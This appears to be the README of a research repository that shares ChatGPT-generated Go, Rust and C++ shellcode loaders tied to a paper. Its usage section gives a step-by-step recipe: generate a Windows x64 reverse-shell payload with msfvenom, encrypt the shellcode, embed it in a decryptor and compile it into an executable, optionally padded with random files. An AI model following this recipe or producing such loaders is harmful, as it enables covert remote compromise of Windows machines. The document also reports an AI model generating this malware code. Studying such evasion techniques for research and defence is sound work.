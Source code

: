 <!-- ABOUT THE PROJECT -->
## About The Project

This project was created to share our code that is mentioned in the following paper. In this repository, we included only the relevant Go, Rust, and C++ code that was created by ChatGPT.


### Built With

This section lists all major frameworks/libraries used to create this project. 
1. Go 1.19.5
2. Rust (nightly-x86_64-pc-windows-msvc toolchain)
3. Python 3.10
4. pycryptodomex


<!-- GETTING STARTED -->
## Getting Started




### Requirements
1. Install Go 1.19.5
2. Install Rust (nightly-x86_64-pc-windows-msvc toolchain)
3. Install Visual Studio 2022 (Rust + C++)
4. Install C++ dependencies from Visual Studio 2022
5. Install Visual Studio Code (Go)
6. Install Python 3.10
7. Install pycryptodomex



<!-- USAGE EXAMPLES -->
## Usage
For Go
1. msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f go 
2. Remove "0x" and new line values
3. Place the shellcode in the encryptGo.go file
4. Execute the code
5. Take the encrypted shellcode and place it in the decryptGo.go file
6. Compile the Go file to retrieve the .exe

For Rust
1. Place the shellcode.bin file to the same directory as with the encryptPython.py
2. Execute 
```
python encryptPython.py
```
to generate necessary files
3. Compile the code to retrieve the exe file
```
cargo build --release
```

For C++
1. Create a WindowsApplication dummy project in Visual Studio 2022
2. Change debug to release
2. Compile the code to generate the exe file

Note: If you want to use random generated files, execute the following command
```
head -c 90M </dev/urandom > file-2
```
With "file-2" the name of the output file, and "90M" is the file size. You can generate and include as many files as you like.

<!-- CONTRIBUTING -->
## Contributing

Contributions are what make the open source community such an amazing place to learn, inspire, and create. If you have a suggestion that would make this better, please fork the repo and create a pull request. You can also simply open an issue with the tag "enhancement".


<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information. The attack tool is provided only for educational purposes and authorized audits. Use it at your own risk.



<!-- CONTACT -->
## Contact

Efstratios Chatzoglou -  efchatzoglou@gmail.com 


<!-- ACKNOWLEDGMENTS -->
## Acknowledgments
I would like to thank the users that created the following three repositories, which they assisted into creating this one. The Go code is forked from https://github.com/sezzle/simpleGoAES, and https://github.com/Ne0nd0g/go-shellcode/tree/master/cmd/CreateProcess and the Rust code from https://github.com/cr7pt0pl4gu3/Pestilence.

